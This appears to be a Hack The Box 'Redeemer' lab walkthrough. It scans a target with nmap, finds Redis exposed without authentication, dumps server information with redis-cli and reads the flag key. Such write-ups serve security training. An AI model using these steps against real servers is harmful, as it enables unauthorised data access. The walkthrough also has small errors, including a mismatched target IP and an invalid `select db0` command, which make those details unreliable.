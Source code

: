 # Redeemer
#startingpoint 
#veryeasy 
#redis

Firstly, we start by opening a VPN connection and launching the VM on HTB.
### Reconnaissance
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there is one open port,  port 6379 running redis service in the version 5.07.

```
Nmap scan report for 10.129.56.92
Host is up (0.045s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```
### Redis Service
Since we found redis running in a open port, we try to connect to it using the `redis-cli -h $TARGET` command. We enter the target host's IP address. Once we are in the redis terminal we can run `info` to retrieve various information about the Redis instance, including its version, uptime, memory usage, and configuration file path. The output shows that the Redis instance is running version 5.0.7, has been running for 730 seconds (or approximately 12 minutes), uses 859624 bytes of memory (with a peak usage of 859624 bytes), and has a configuration file located at `/etc/redis/redis.conf`. Also it shows that there is a keyspace on index 0 which contains 4 keys.

```
10.129.56.92:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:746
run_id:ec1866fe33993dbe667d3c17a610f606e35dcfec
tcp_port:6379
uptime_in_seconds:730
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:5630188
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5947392
used_memory_rss_human:5.67M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.00%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1613720
allocator_active:1949696
allocator_resident:9158656
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.21
allocator_frag_bytes:335976
allocator_rss_ratio:4.70
allocator_rss_bytes:7208960
rss_overhead_ratio:0.65
rss_overhead_bytes:-3211264
mem_fragmentation_ratio:7.27
mem_fragmentation_bytes:5129776
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:4
rdb_bgsave_in_progress:0
rdb_last_save_time:1700128274
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:6
total_commands_processed:7
instantaneous_ops_per_sec:0
total_net_input_bytes:320
total_net_output_bytes:14861
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:4de0796cde5d7a5a2b38afdb4ae1438e3b61a0f4
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.497178
used_cpu_user:0.436640
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0

```
Now that we know that there is a keyspace called `db0` we can get the keys and values that it contains but first we need to select it, to do this we run `select db0`.
Once selected we can get all the keys by running `keys *` command. The output shows that there are four keys in the database: "temp", "numb", "flag", and "stor".
`
```
10.129.56.92:6379> keys *
1) "temp"
2) "numb"
3) "flag"
4) "stor"
```

Finally, we can run the `get flag` command to retrieve the value of the "flag" key, which returns the flag value that we need.